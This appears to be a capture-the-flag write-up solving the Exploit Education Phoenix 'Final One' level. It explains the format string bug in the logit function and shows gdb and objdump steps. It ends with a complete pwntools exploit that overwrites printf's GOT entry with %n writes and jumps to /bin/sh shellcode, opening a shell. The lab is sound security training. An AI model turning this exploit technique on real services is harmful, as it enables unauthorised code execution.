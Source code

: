 ```yaml
---
title: "Phoenix - Final One"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "If you take a quick look at the code you can spot the format string bug in **logit** function, let's trace back to find where it's called.
It's called in **parser** function, this function takes two kinds of input (username followed by a string OR login).
username STRING stores the string in **line** and login calls **logit** function with that string as argument..."
categories:
  - Binary Exploitation
---
```



```c
#include <arpa/inet.h>
#include <err.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <syslog.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char username[128];
char hostname[64];
FILE *output;

void logit(char *pw) {
  char buf[2048];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n",
      hostname, username, pw);

  fprintf(output, buf);
}

void trim(char *str) {
  char *q;

  q = strchr(str, '\r');
  if (q) *q = 0;
  q = strchr(str, '\n');
  if (q) *q = 0;
}

void parser() {
  char line[128];

  printf("[final1] $ ");

  while (fgets(line, sizeof(line) - 1, stdin)) {
    trim(line);
    if (strncmp(line, "username ", 9) == 0) {
      strcpy(username, line + 9);
    } else if (strncmp(line, "login ", 6) == 0) {
      if (username[0] == 0) {
        printf("invalid protocol\n");
      } else {
        logit(line + 6);
        printf("login failed\n");
      }
    }
    printf("[final1] $ ");
  }
}

int testing;

void getipport() {
  socklen_t l;
  struct sockaddr_in sin;

  if (testing) {
    strcpy(hostname, "testing:12121");
    return;
  }

  l = sizeof(struct sockaddr_in);
  if (getpeername(0, (void *)&sin, &l) == -1) {
    err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp) {
  if (argc >= 2) {
    testing = !strcmp(argv[1], "--test");
    output = stderr;
  } else {
    output = fopen("/dev/null", "w");
    if (!output) {
      err(1, "fopen(/dev/null)");
    }
  }

  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  printf("%s\n", BANNER);

  getipport();
  parser();

  return 0;
}
```

If you take a quick look at the code you can spot the format string bug in **logit** function, let's trace back to find where it's called.

It's called in **parser** function, this function takes two kinds of input (username followed by a string OR login).

username STRING stores the string in **line** and login calls **logit** function with that string as argument.

The bug here is that **snprintf** copies the string argument to **buf** then **fprintf** prints this string without using **%s**, hence the bug.

```
$ /opt/phoenix/i486/final-one --test
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ username AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
[final1] $ login 
Login from testing:12121 as [AAAA0.0.69676f4c.7266206e.74206d6f.69747365.313a676e.31323132.20736120.4141415b.2e782541.252e7825.78252e78.2e78252e.252e7825] with password []
login failed
```

We can see that **AAA** appears at 9th place with **5b** as first byte so we will use **AAA** as offset then we enter the address we want to write to, but first we choose a good address.

The best choice if to overwrite a **GOT** entry, here we will overwrite the address of **printf**.

So we need to know the address of the buffer that will contain the shellcode. Open two terminals (you can use tmux or screen): 

```
# First Terminal
$ nc localhost 64014
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $
```

```
# Second Terminal

$ ps aux | grep final
phoenix+  1114  0.0  0.0    736     8 ?        Ss   12:17   0:00 /opt/phoenix/i486/final-one
user      1134  0.0  0.0   5136   984 pts/3    S+   12:18   0:00 grep final

$ sudo gdb -p 1114
Attaching to process 1114
Reading symbols from target:/opt/phoenix/i486/final-one...(no debugging symbols found)...done.

gef➤  disassemble logit
Dump of assembler code for function logit:
.....
   0x08048827 <+66>:    call   0x80485a0 <fprintf@plt>
   0x0804882c <+71>:    add    esp,0x10
.....

gef➤  b *0x0804882c
Breakpoint 1 at 0x804882c

gef➤  c
Continuing.
```

```
# First Terminal

[final1] $ username AAAAA
[final1] $ login
```

```
# Second Terminal

gef➤  x/16xw $ebp-0x808
0xffffd490:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
0xffffd4a0:     0x312e302e      0x3134333a      0x61203234      0x415b2073
0xffffd4b0:     0x41414141      0x6977205d      0x70206874      0x77737361
0xffffd4c0:     0x2064726f      0x000a5d5b      0x00000000      0x00000000
```

We can see that our input appears at **0xffffd4b0** with just one byte offset before (so we need just one byte offset instead of three).

```
$ objdump -R /opt/phoenix/i486/final-one | grep printf
08049e48 R_386_JUMP_SLOT   printf
```

**printf** is at **08049e48**, now we are ready to write the exploit.

# Solution:

```python
# solve.py

from pwn import *

printf = 0x08049e48
buffer = 0xffffd4c0
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

buff = ""
buff += 'username A'		# A is just an offset

buff += p32(printf+0)
buff += 'AAAA'			# JUNK that will be popped with second %x
buff += p32(printf+1)
buff += 'AAAA'			# JUNK that will be popped with third %x
buff += p32(printf+2)
buff += 'AAAA'			# JUNK that will be popped with forth %x
buff += p32(printf+3)

buff += shellcode

buff += '%x' * 9
buff += '%45x %n'		# first byte 0xc8
buff += '%19x %n'		# second byte 0xd4
buff += '%42x %n'		# third byte 0xff
buff += '%255x %n \n'		# forth byte 0xff
buff += 'login \n'

p = remote('localhost', 64014)
print(p.recvline())

p.send(buff)
p.interactive()
```

Notice that we used **AAAA** between addresses because we use **%nx** instead of normal characters which will pop an a value from the stack.

```
$ python x.py
[+] Opening connection to localhost on port 64014: Done
Welcome to phoenix/final-one, brought to you by https://exploit.education

[*] Switching to interactive mode
[final1] $ [final1] $ login failed

$ whoami
phoenix-i386-final-one
```